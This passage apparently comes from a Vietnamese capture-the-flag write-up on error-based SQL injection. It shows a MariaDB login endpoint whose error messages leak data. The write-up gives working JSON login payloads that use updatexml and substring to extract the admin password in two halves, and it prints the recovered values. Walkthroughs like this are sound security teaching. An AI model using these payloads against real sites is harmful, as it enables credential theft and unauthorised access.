 Ném qua burpsuite và truy vấn một câu bất kì thử;

![image](https://user-images.githubusercontent.com/104350480/227455150-dcea7336-f348-40dd-8ba3-a63c6b876c82.png)

Nhận được lỗi trả về: 

```
{"error":{"message":["1064","You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'select null,null -- -\"' at line 1"],"type":"ProgrammingError"}}

```

Ở đây nó trả về cho mình biết luôn là đang dùng cơ sở dữ liệu MariaDB, MariaDB là bản phát triển từ mã nguồn Mysql nên mình có thể truy vấn các câu lệnh tương tự như bên Mysql.  Để tiếp tục exploit, mình sẽ dùng một trong những hàm XPATH đuợc sử dụng trong SQL đó là updateXML để trigger ra lỗi và lấy kết quả.

```
UPDATEXML(XMLType_Instance, XPath_string,value_expression, namespace_string)

```

Nếu truy vấn XPath không chính xác mình sẽ nhận được lỗi trả về như sau: 

```
XPATH syntax error: 'xpathqueryhere'
```
Mình sẽ injection với XPATH như sau để dump dữ liệu ra: 
Đầu tiên mình lấy length của password cần:

```
{"username":"admin\" and updatexml(null,concat(0x3a,(select length(password) from users)),null)-- -","password":"123"}

```

![image](https://user-images.githubusercontent.com/104350480/227457723-be81706e-3f77-4027-9988-ae38b7fa3569.png)

password cần lấy ra có độ dài là 32, tiếp tục mình dùng substring để lấy password, ở đây chia ra làm 2 nửa, vì mình thử chỉ được từ 1 đến 31, vẫn phải thử 2 lần: 

```

{"username":"admin\" and updatexml(null,concat(0x3a,(select substring(password,1,16) from users)),null)-- -","password":"123"}


```
> pass1: 1692b753c031f290

```
{"username":"admin\" and updatexml(null,concat(0x3a,(select substring(password,17,32) from users)),null)-- -","password":"123"}

```
> pass2: 5b89e7258dbc49bb
